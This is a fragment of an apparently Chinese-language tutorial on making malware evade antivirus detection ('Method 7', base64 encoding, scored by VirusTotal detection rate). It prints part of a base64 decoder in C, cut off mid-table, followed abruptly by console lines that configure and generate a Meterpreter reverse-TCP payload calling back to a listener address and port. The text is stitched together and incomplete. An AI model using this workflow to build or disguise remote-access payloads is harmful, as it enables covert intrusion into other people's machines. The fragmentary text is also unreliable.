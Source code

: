 ![image-20220530145657512](./images/202205301456618.png)

### 方法7 base64加密1（VT免杀率21/68）

需要两个文件，`base64.c`和`base64.h`

`base64.c`文件内容：

```c
/* Base64 encoder/decoder. Originally Apache file ap_base64.c
*/

#include <string.h>

#include "base64.h"

/* aaaack but it's fast and const should make it shared text page. */
static const unsigned char pr2six[256] =
{
    /* ASCII table */
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64,
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64,
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 62, 64, 64, 64, 63,
    52, 53, 54, 55, 56, 57, 58, 59, 60, 61, 64, 64, 64, 64, 64, 64,
    64,  0,  1,  2,  3,  4,  5,  6,  7,  8,  9, 10, 11, 12, 13, 14,
    15, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 64, 64, 64, 64, 64,
    64, 26, 27, 28, 29, 30, 31, 32, 33, 34, 35, 36, 37, 38, 39, 40,
    41, 42, 43, 44, 45, 46, 47, 48, 49, 50, 51, 64, 64, 64, 64, 64,
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64,
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64,
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64,
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64,
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64,
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64,
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64,
```

[go/meterpreter/rev_tcp>>]: set lhost 192.168.174.128
[go/meterpreter/rev_tcp>>]: set lport 6666
[go/meterpreter/rev_tcp>>]: generate